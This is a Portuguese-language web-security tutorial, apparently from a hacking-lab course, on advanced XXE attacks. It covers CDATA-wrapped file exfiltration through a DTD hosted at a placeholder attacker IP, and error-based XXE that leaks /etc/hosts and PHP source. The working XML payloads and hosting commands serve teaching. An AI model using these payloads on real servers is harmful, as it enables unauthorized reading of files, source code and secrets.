



# Divulgação avançada de Arquivos

Nem todas as vulnerabilidades XXE podem ser fáceis de explorar, como vimos na seção anterior. Alguns formatos de arquivo podem não ser legíveis por meio do XXE básico, enquanto em outros casos, o aplicativo da web pode não gerar nenhum valor de entrada em alguns casos, portanto, podemos tentar forçá-lo por meio de erros.

## Exfiltração Avançada com CDATA

Na seção anterior, vimos como poderíamos usar filtros PHP para codificar arquivos fonte PHP, de forma que eles não quebrassem o formato XML quando referenciados, o que (como vimos) nos impediu de ler esses arquivos. Mas e quanto a outros tipos de aplicativos da Web? Podemos utilizar outro método para extrair qualquer tipo de dados (incluindo dados binários) para qualquer back-end de aplicativo da web. Para gerar dados que não estão em conformidade com o formato XML, podemos agrupar o conteúdo da referência de arquivo externo com uma tag ``CDATA`` (por exemplo, \<![CDATA[ FILE_CONTENT ]]>). Desta forma, o analisador XML consideraria esta parte como dados brutos, que podem conter qualquer tipo de dados, incluindo quaisquer caracteres especiais.

Uma maneira fácil de resolver esse problema seria definir uma entidade interna inicial com \<![CDATA[, uma entidade interna final com ]]> e, em seguida, colocar nosso arquivo de entidade externa no meio, e deve ser considerado como um elemento ``CDATA`` , do seguinte modo:

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

Depois disso, se referenciarmos a entidade ``&joined;``, ela deve conter nossos dados escapados. Porém, isso não funcionará, pois o XML impede a união de entidades internas e externas, então teremos que encontrar uma forma melhor de fazer isso.

Para contornar essa limitação, podemos utilizar Entidades de Parâmetro XML, um tipo especial de entidade que começa com um caractere ``%`` e só pode ser usado dentro do ``DTD``. O que há de único nas entidades de parâmetro é que, se as referenciarmos a partir de uma fonte externa (por exemplo, nosso próprio servidor), todas elas serão consideradas externas e poderão ser unidas, como segue:

```xml
<!ENTITY joined "%begin;%file;%end;">
```

Então, vamos tentar ler o arquivo ``submitDetails.php`` primeiro armazenando a linha acima em um arquivo DTD (por exemplo, ``xxe.dtd``), hospedá-lo em nossa máquina e, em seguida, referenciá-lo como uma entidade externa no aplicativo web de destino, como segue :

```bash
NycolasES6@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
NycolasES6@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Agora, podemos referenciar nossa entidade externa (``xxe.dtd``) e então imprimir o entidade ``&joined;``  que definimos acima, que deverá conter o conteúdo do arquivo ``submitDetails.php``, conforme segue:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

Depois de escrever nosso arquivo xxe.dtd, hospedá-lo em nossa máquina e, em seguida, adicionar as linhas acima à nossa solicitação HTTP para o aplicativo web vulnerável, podemos finalmente obter o conteúdo do arquivo submitDetails.php:



Como podemos ver, conseguimos obter o código-fonte do arquivo sem a necessidade de codificá-lo em base64, o que economiza muito tempo ao percorrer vários arquivos em busca de segredos e senhas.

> Nota: Em alguns servidores web modernos, podemos não ser capazes de ler alguns arquivos (como index.php), pois o servidor web estaria evitando um ataque DOS causado pela auto-referência de arquivo/entidade (ou seja, loop de referência de entidade XML) , conforme mencionado na seção anterior.

Este truque pode se tornar muito útil quando o método XXE básico não funciona ou ao lidar com outras estruturas de desenvolvimento web. Tente usar este truque para ler outros arquivos.

## XXE baseado em erro

Outra situação em que podemos nos encontrar é aquela em que o aplicativo Web pode não gravar nenhuma saída, portanto, não podemos controlar nenhuma das entidades de entrada XML para gravar seu conteúdo. Nesses casos, ficaríamos cegos para a saída XML e, portanto, não seríamos capazes de recuperar o conteúdo do arquivo usando nossos métodos usuais.

Se o aplicativo da web exibir erros de tempo de execução (por exemplo, erros de PHP) e não tiver tratamento de exceção adequado para a entrada XML, podemos usar essa falha para ler a saída do exploit XXE. Se a aplicação web não gravar saída XML nem exibir erros, enfrentaremos uma situação completamente ``cega``, que discutiremos na próxima seção.

Vamos considerar o exercício que temos em ``/error`` no final desta seção, no qual nenhuma das entidades de entrada XML é exibida na tela. Por causa disso, não temos nenhuma entidade que possamos controlar para gravar a saída do arquivo. Primeiro, vamos tentar enviar dados XML malformados e ver se o aplicativo da web exibe algum erro. Para isso, podemos deletar qualquer uma das tags de fechamento, alterar uma delas para que ela não feche (por exemplo, ``<roo>`` em vez de ``<root>``), ou apenas referenciar uma entidade inexistente, como segue:



Vemos que realmente fizemos com que o aplicativo da web exibisse um erro e também revelou o diretório do servidor da web, que podemos usar para ler o código-fonte de outros arquivos. Agora, podemos explorar essa falha para exfiltrar o conteúdo do arquivo. Para fazer isso, usaremos uma técnica semelhante à que usamos anteriormente. Primeiro, hospedaremos um arquivo DTD que contém a seguinte carga:

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

A carga acima define a entidade do parâmetro do arquivo e então a une a uma entidade que não existe. No nosso exercício anterior, juntámos três cordas. Neste caso, ``%nonExistingEntity;`` não existe, então o aplicativo da web geraria um erro dizendo que esta entidade não existe, junto com nosso ``%file;`` unido como parte do erro. Existem muitas outras variáveis que podem causar um erro, como um URI incorreto ou caracteres incorretos no arquivo referenciado.

Agora, podemos chamar nosso script DTD externo e, em seguida, referenciar a entidade de erro, como segue:

```xml
<!DOCTYPE email [ 
    <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
    %remote;
    %error;
]>
```

Assim que hospedarmos nosso script DTD como fizemos anteriormente e enviarmos a carga acima como nossos dados XML (sem necessidade de incluir quaisquer outros dados XML), obteremos o conteúdo do ``arquivo /etc/hosts`` da seguinte forma:



Este método também pode ser usado para ler o código-fonte dos arquivos. Tudo o que precisamos fazer é alterar o nome do arquivo em nosso script DTD para apontar para o arquivo que queremos ler (por exemplo, ``"file:///var/www/html/submitDetails.php"``). No entanto, este método não é tão confiável quanto o método anterior para leitura de arquivos de origem, pois pode ter limitações de comprimento e alguns caracteres especiais ainda podem quebrá-lo.
